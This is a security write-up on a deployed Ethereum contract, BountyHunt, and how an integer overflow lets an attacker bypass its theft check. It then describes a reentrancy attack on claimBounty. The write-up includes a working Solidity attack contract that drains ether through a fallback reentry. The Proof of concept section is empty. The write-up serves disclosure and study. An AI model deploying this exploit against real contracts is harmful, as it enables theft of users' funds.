

BountyHunt
=======
https://etherscan.io/address/0xb5766f61911f8b520b0e938aae100834aa3048c6#code

Vulnerability type
------
Integer overflow

Reentry

Abstract
------
A smart contract implement for BountyHunt, allows users to call `grantBounty(address beneficiary, uint amount)` to save ethers as bounty in this contract and appoint the beneficiary who will be able to claim this bounty by calling `claimBounty()`.

For the safety of bounty in this contract, the owner use modifier `preventTheft` to prevent attacks. However, there exist an integer overflow vulnerability which makes it possible to bypass the modifier `preventTheft`. After that, attackers can exploit the reentry vulnerability to steal bounty stored in this contract.

Related Code
------
    pragma solidity ^0.4.4;

    contract BountyHunt {
      mapping(address => uint) public bountyAmount;
      uint public totalBountyAmount;

      modifier preventTheft {
        _;  
        if (this.balance < totalBountyAmount) throw;
      }

      function grantBounty(address beneficiary, uint amount) payable preventTheft {
        bountyAmount[beneficiary] += amount;
        totalBountyAmount += amount;
      }

      function claimBounty() preventTheft {
        uint balance = bountyAmount[msg.sender];
        if (msg.sender.call.value(balance)()) {
          totalBountyAmount -= balance;
          bountyAmount[msg.sender] = 0;
        }   
      }
      ......
    }
    
Details
------
We can see that in function `claimBounty()` there exists a reentry vulnerability: when user U claims his bounty, the contract firstly sends ethers to U, and after that sets the `bountyAmount` of U to 0. Here, the contract uses `call` function to send ethers, which will cause U excuting its `fallback()` function. If U calls `claimBounty()` again in its `fallback()` when the bountyAmount of U has not been set to 0 yet, U will receive double the ethers he should get.

To prevent this risk, the owner use a modifier `preventTheft`. It assumes that after a function being executed, the balance of this contract should not be less than `totalBountyAmount`, otherwise revert the whole execution. In normal case `totalBountyAmount` keeps track of the balance of this contract, but in reentry attack, when the attacker's `fallback()` calls `claimBounty()` again, `totalBountyAmount` will be larger than `this.balance` at that moment. So, it seems that this modifier can defend against reentry attack.

However, the integer overflow vulnerability in `grantBounty(address beneficiary, uint amount)` makes modifier `preventTheft` lose effectiveness. 

In normal case, when user U calls this function with some balance, it will set `amount` of balance as `beneficiary`'s bounty. The modifier `preventTheft` requires that the balance sending from U should be larger than `amount`. However, there exists an integer overflow vulnerability that will allow U to set `totalBountyAmount` to arbitrary value, and if U sets `totalBountyAmount` to a value smaller enough than the balance of this contract, modifier `preventTheft` will lose its effectiveness, and reentry attack on function `claimBounty()` will hold.

Exploit
------
    contract Attack {
        BountyHunt victim;
        uint256 reentry_time = 0;
    
        uint256 public my_balance;
    
        function setVictim(address target) { victim = BountyHunt(target); }
     
        // deposit Ether to victim
        function step1(uint256 amount) payable{
            if (this.balance > amount) {
                victim.grantBounty.value(amount)(this,amount);
            }
            my_balance = this.balance;
        }
    
        // withdraw Ether
        function step2(uint256 amount) {
            victim.claimBounty();
            my_balance = this.balance;
        }
        
        //reentry attack for only once
        function () payable {
            if (reentry_time == 0) {
                reentry_time += 1;
                victim.claimBounty();
            }
            my_balance = this.balance;
        }
    }
    
    contract BountyHunt{
        mapping(address => uint) public bountyAmount;
        uint public totalBountyAmount;
        modifier preventTheft {
            _;  
            if (this.balance < totalBountyAmount) throw;
        }
        function grantBounty(address beneficiary, uint amount) payable preventTheft {}
        function claimBounty() preventTheft {}
    }

Proof of concept
------

